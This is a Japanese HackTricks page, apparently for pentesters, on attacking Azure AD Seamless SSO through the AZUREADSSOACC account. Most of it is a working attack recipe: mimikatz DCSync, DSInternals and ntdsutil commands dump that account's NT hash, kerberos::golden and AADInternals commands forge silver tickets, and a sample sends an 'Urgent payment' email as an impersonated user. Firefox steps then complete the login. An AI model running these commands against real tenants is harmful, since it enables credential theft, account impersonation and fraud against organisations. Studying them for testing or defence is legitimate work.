 # シームレスSSO

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* もし **HackTricks であなたの会社を宣伝したい**場合や、**最新版のPEASSやHackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションです
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)をフォローしてください。
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **と** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## 基本情報

Azure Active Directory Seamless Single Sign-On（Azure AD Seamless SSO）は、**ユーザーが企業のデバイスに接続しているときに自動的にサインイン**します。有効にすると、**ユーザーはAzure ADにサインインするためにパスワードを入力する必要がなく**、通常はユーザー名さえ入力する必要がありません。この機能により、ユーザーはオンプレミスのコンポーネントを追加することなく、クラウドベースのアプリケーションに簡単にアクセスできます。

<figure><img src="../../../../.gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

基本的に、Azure AD Seamless SSOは、**オンプレミスのドメインに参加したPC上でユーザーがサインイン**する際に使用されます。

これは、[**PHS（パスワードハッシュ同期）**](phs-password-hash-sync.md)と[**PTA（パススルー認証）**](pta-pass-through-authentication.md)の両方でサポートされています。

デスクトップSSOは、認証に**Kerberos**を使用しています。構成されると、Azure AD ConnectはオンプレミスのADに**AZUREADSSOACC**というコンピューターアカウントを作成します。AZUREADSSOACCアカウントのパスワードは、構成中に**平文でAzure ADに送信**されます。

**Kerberosチケット**は、パスワードの**NTHash（MD4）**を使用して**暗号化**され、Azure ADは送信されたパスワードを使用してチケットを復号化します。

**Azure AD**は、Kerberos **チケット**を受け入れる**エンドポイント**（https://autologon.microsoftazuread-sso.com）を公開しています。ドメインに参加したマシンのブラウザは、SSOのためにこのエンドポイントにチケットを転送します。

### オンプレミス -> クラウド

ユーザー**AZUREADSSOACCのパスワードは変更されません**。したがって、ドメイン管理者はこのアカウントのハッシュを侵害し、それを使用して**シルバーチケットを作成**して、**オンプレミスのユーザーを同期**させることができます。
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
ハッシュを使用して、**シルバーチケットを生成**することができます:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:f9969e088b2c13d93833d0ce436c76dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "97B745CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
シルバーチケットを使用するには：

1. _Mozilla Firefox_を起動します。
2. **`about:config`** に移動し、[network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) の設定を [value](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) に `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com` と設定します。
3. AAD ドメインと統合された任意の Web アプリケーションに移動します。最も一般的に使用されるのは [Office 365](https://portal.office.com/) です。
4. ログオン画面に移動したら、ユーザー名を入力し、パスワードフィールドは空のままにします。その後、TAB キーまたは ENTER キーを押します。

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

#### 以上です！これでログインできるはずです！ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

#### ~~クラウド専用ユーザーのための Kerberos チケットの作成~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Active Directory 管理者が Azure AD Connect にアクセスできる場合、**クラウドユーザーの SID を設定**することができます。これにより、クラウド専用ユーザーに対しても Kerberos **チケットを作成**することができます。唯一の要件は、SID が適切な [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) であることです。

{% hint style="danger" %}
クラウド専用の管理者ユーザーの SID の変更は、現在 **Microsoft によってブロックされています**。\
詳細については、[https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/) を確認してください。
{% endhint %}

## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* **HackTricks で企業を宣伝**したい場合や、**最新バージョンの PEASS を入手**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop) をご確認ください！
* [**公式の PEASS & HackTricks スワッグ**](https://peass.creator-spring.com) を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) を見つけて、独占的な [**NFT**](https://opensea.io/collection/the-peass-family) のコレクションを発見しましょう
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) または [**telegram グループ**](https://t.me/peass) に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) をフォローしましょう。
* **HackTricks** と **HackTricks Cloud** の github リポジトリに PR を提出して、自分のハッキングトリックを共有しましょう。

</details>
